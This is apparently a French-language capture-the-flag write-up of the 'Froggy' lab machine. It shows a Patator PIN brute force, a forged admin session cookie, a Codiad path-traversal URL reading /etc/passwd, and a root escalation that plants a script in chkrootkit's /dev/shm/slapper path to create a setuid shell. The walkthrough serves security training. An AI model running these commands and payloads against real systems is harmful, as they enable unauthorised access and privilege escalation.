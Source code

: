 ```yaml
---
title: Solution du CTF Froggy de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Froggie jumped all over the stage that day
------------------------------------------

*Froggy* est un CTF basé Linux proposé sur la plateforme *Wizard Labs*.  

Via un buster avec une liste assez large de paths potentiels on trouve différents dossiers mais surtout une zone membre :  

```
/images (Status: 301)
/thumbnail (Status: 301)
/server-status (Status: 403)
/grid (Status: 301)
/memberarea (Status: 301)
```

dans cette zone on peut trouver des pages PHP mais elles nécessitent une authentification :  

```
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/test.php (Status: 200)
/update.php (Status: 302)
/database (Status: 301)
/logout.php (Status: 302)
/config.php (Status: 200)
/forgot.php (Status: 200)
/editor (Status: 301)
/dashboard.php (Status: 302)
/remove.php (Status: 200)
```

Le script *forgot.php* correspond évidemment à un script de récupération de mot de passe. Il est tout de même assez inhabituel puisqu'il ne demande qu'un PIN.  

Partant du principe qu'un PIN est généralement numérique on peut utiliser Patator pour trouver les PIN qui ne sont pas invalides :  

```bash
patator http_fuzz url='http://10.1.1.56/memberarea/forgot.php' method=POST body='forgotpass=Check&secretpin=RANGE0' 0=int:0-10000 -x ignore:fgrep='Sercet pin not matched'
```

NB: la typo fait partie du challenge.  

Avec un PIN de 0 on obtient un message différent : *Please enter your secret pin to view your password.*  

Hmmm étrange mais pas vraiment utile :-/   

Puisque le site le permet j'ai créé un compte dans cette zone membre et une fois connecté on peut clairement voir un cookie nommé *membersession* qui contient le base64 correspondant au compte que je viens de créer (*devloop*).  

Il suffit d'éditer le cookie pour y mettre le base64 de *admin* puis on retourne sur le dashboard qui nous livre ses secrets :  

> Welcome admin  
> 
>   
> 
> Your Notes : Need to beautify our gallery using '83VbbDGjefTnM9wQ' as Password

Codiadwnage
-----------

Où utiliser ces identifiants ?  

Toujours sous */memberarea* on trouve un dossier nommé *editor* qui est un IDE web baptisé [Codiad](http://codiad.com/).  

Pas grand chose d'intéressant à y voir une fois connecté, toutefois ce soft semble vulnérable :  

```
$ searchsploit codiad
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities  | exploits/php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion      | exploits/php/webapps/36371.txt
----------------------------------------- ----------------------------------------
Shellcodes: No Result
```

La faille d'inclusion locale est très facile à exploiter :  

```
http://10.1.1.56/memberarea/editor/components/filemanager/download.php?path=../../../../../../../../../../../etc/passwd&type=undefined
```

On note la présence de deux utilisateurs :  

```
sysadm:x:1001:1001:,,,:/home/sysadm:/bin/bash
ahmed:x:1002:1002:,,,:/home/ahmed:/bin/bash
```

La clé privée SSH de *ahmed* est récupérable et nous permet d'obtenir notre shell ainsi que le premier flag :)  

On reçoit aussi une notification de réception d'un email :  

```
You have mail.
Last login: Sat Feb 23 10:27:50 2019 from 192.168.0.30
ahmed@froggy:~$ mail
-bash: mail: command not found
ahmed@froggy:~$ ls /var/spool/mail
ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed
/var/spool/mail/ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed  -lh
-rwx------ 1 ahmed ahmed 367 Feb 22 14:56 /var/spool/mail/ahmed
ahmed@froggy:~$ cat /var/spool/mail/ahmed
From: SysAdmin <sysadm@localhost.localdomain>
To: Ahmed <ahmed@localhost.localdomain>
Subject: Vulnerable Program

Dear Ahmed !

While I was visiting some hacker websites I discovered an "public exploit " for our anti-rootkit utility ...

It's surely disappointing for us but I did my best to make the exploit unusable for any attacker .

Your Lovely SysAdmin  !!
```

Cuisses de grenouilles
----------------------

Au début je me suis dirigé vers l'idée d'un script custom à exploiter, j'ai donc fouillé un droite à gauche.  

L'utilisateur *sysadm* ne dispose d'aucun fichier vraiment intéressant.  

Après avoir récupéré les identifiants SQL j'ai trouvé le mot de passe admin de la zone membre ainsi que les PINs, ce qui explique le message de tout à l'heure.  

```
$ mysql -u membership -p member
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 50060
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [member]> show tables;
+------------------+
| Tables_in_member |
+------------------+
| pdo              |
+------------------+
1 row in set (0.00 sec)

MariaDB [member]> select * from pdo;
+----+----------+----------+------------------+-----------+
| id | fullname | username | password         | secretpin |
+----+----------+----------+------------------+-----------+
|  1 | admin    | admin    | Gw-LfcrjC-4hr6>g |         0 |
|  2 | test     | test     | test             |         0 |
|  3 | devloop  | devloop  | devloop          |    123456 |
+----+----------+----------+------------------+-----------+
3 rows in set (0.26 sec)
```

Je suis alors parti sur l'idée que *chkrootkit* soit exécuté via un *crontab* puisque je savais qu'une faille existait pour ce logiciel (forcément ça en a fait rigoler quelques-uns).  

Le binaire est bien présent sur le système mais est-il exécuté ? J'ai eu recours une nouvelle fois à mon script de surveillance des process ([voir CTF Homeless]({% link _posts/2018-02-23-Solution-du-CTF-Homeless-de-VulnHub.md %})) :  

```bash
23961 root /usr/sbin/CRON -f
23962 root /bin/sh -c    chkrootkit
23963 root /bin/sh /usr/bin/chkrootkit
24205 root /bin/echo -n Checking `inetd'...
24466 root grep -E check_global_passwd|panasonic|satori|vejeta|\.ark|/hash\.zk
24492 root /bin/ps auwx
24493 root grep -E xinetd
24494 root grep -E -v grep
24589 root /usr/bin/find /dev /tmp /lib /etc /var ( -name tcp.log -o -name .linux-sniff -o -name sniff-l0g -o -name core_ )
24610 root find /lib /usr/lib /usr/local/lib -name libproc.a
24643 root /usr/bin/find /usr/lib /lib -name .[A-Za-z]* -o -name ...* -o -name .. *
24654 root /usr/bin/find /usr/lib /lib -type d -name .*
24695 root /usr/bin/find /usr/lib -name last.cgi
24708 root /usr/bin/find /usr/lib /usr/bin -name red.tar -o -name start.sh -o -name klogd.o -o -name 0anacron-bak -o -name adore
24777 root /bin/sh /usr/bin/chkrootkit
24778 root /usr/bin/strings /sbin/init
24779 root grep -E HOME
24856 root /bin/sh /usr/bin/chkrootkit
24857 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
24858 root grep -E #!.*php
25025 root /bin/sh /usr/bin/chkrootkit
25026 root find /proc
25027 root wc -l
```

L'exploit présent [sur exploit-db](https://www.exploit-db.com/exploits/33899) indique que chkrootkit va exécuter les scripts présents dans la variable *SLAPPER\_FILES*.  

L'exploit donnait un exemple avec le script */tmp/update* donc au début je ne suis pas allé plus loin mais voyant que rien ne s'exécutait j'ai regardé le code (chkrootkit est écrit en bash) et la liste variable était différente :  

```bash
SLAPPER_FILES="${ROOTDIR}dev/shm/slapper"
```

J'ai donc écrit un script bash à cet emplacement :  

```bash
#!/bin/bash
cp /bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Cette fois notre script est bien exécuté:  

```bash
2890 root /bin/sh /usr/bin/chkrootkit
2891 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
2892 root grep -E #!.*php
2937 root /bin/netstat -an
2938 root grep -E ^tcp.*LIST|^udp
2939 root grep -E [.:]145[^0-9.:]
--- snip ---
3041 root /bin/netstat -an
3042 root grep -E ^tcp.*LIST|^udp
3043 root grep -E [.:]47889[^0-9.:]
3062 root /bin/sh /usr/bin/chkrootkit
3063 root find /proc
3064 root wc -l
3130 root /bin/bash /dev/shm/slapper
3131 root [cp]
3133 root [chmod]
```

```
$ ./devloop_was_here
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
5bbfc6a26697caaaa66b1eefb8d3a1a0699ab51c
```


*Published May 21 2019 at 18:09*

